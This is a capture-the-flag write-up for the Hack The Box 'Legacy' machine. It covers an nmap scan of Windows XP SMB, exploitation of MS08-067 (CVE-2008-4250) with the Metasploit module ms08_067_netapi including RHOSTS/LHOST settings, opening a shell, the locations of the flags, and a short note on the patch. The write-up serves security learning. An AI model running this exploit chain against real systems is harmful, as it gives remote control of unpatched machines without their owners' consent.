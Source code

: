 ![logo](/logo.png)

# [LEGACY- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was reeleased on 15 Mar 2017 as the second machine on HTB,Legacy created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *msrpc
  *netbios-ssn
  *Windows-XP
  
###### code-nmap

```sh
nmap -sV -sC -oA nmap/legacy 10.10.10.4
```

###### output

![nmaplegacy](/Windows/Windows-Easy/Legacy/Screenshots/nmaplegacy.png)

```code
❯ nmap -sV -sC -oA nmap/legacy 10.10.10.4                                                                                           ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 09:17 EAT
Nmap scan report for 10.10.10.4
Host is up (0.33s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b0:da:f6 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-08-09T11:15:50+03:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m41s, deviation: 2h07m15s, median: 4d22h57m42s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.78 seconds

```

looking at the results we find that they are 3 ports open which is an SMB port its a `windows XP` machine.

port[135]-msrpc
port[139]-netbios-ssn
port[445]-microsoft-ds 


# Exploitation

Some [searching](https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15) turns up with [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/cve-2008-4250). Before diving into the details of my exploit, let’s unpack his vulnerability is a significant security flaw in Microsoft Windows operating systems, particularly affecting the Server service that manages file and printer sharing. The core issue lies in how Windows handles network services, allowing an attacker to send specially crafted network packets to execute arbitrary code remotely. In simpler terms, this vulnerability could enable an attacker to take control of a system without the user’s knowledge, which also has a `Metasploit` module available for it. 

We the launch metasploit console 

###### code 

```sh
msfconsole
```

Then we select the `exploit/windows/smb/ms08_067_netapi` and select relevant parameters;

###### code

 ```sh
search ms08_067_netapi
```

If so, Windows XP SP3 English is the correct target.

###### output

![metasploitlegacy](/Windows/Windows-Easy/Legacy/Screenshots/metasploitlegacy.png)

###### code

```sh
use 8
options
set RHOSTS 10.10.10.4
set LHOST 10.10.14.4
run
```

###### output

![metasploitoption](/Windows/Windows-Easy/Legacy/Screenshots/metasploitoption.png)

Running the module immediately grants a root shell. 

![metasploitoption](/Windows/Windows-Easy/Legacy/Screenshots/meterpreterlegacy.png)

###### code

```sh
shell
```

![](/Windows/Windows-Easy/Legacy/Screenshots/shelllegacy.png)

The user flag can be obtained from `C:\Documents and Settings\john\Desktop\user.txt` and the
root flag from `C:\Documents and Settings\Administrator\Desktop\root.txt`
###### output

![](/Windows/Windows-Easy/Legacy/Screenshots/legacyrootuserflag.png)


# The Mitigation: MS08–067

The adventure wouldn’t be complete without discussing the mitigation of this vulnerability. Microsoft released a security update, MS08–067, to patch this critical flaw. This update was crucial for Windows 2000, XP, Vista, and Windows Server 2003 and 2008 users, addressing the vulnerable component in the Server service to prevent such remote exploits. [Bulletin](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)

![](/Windows/Windows-Easy/Legacy/Screenshots/learnlegacy.png)

	-------------------------END successful attack @lesley----------------------


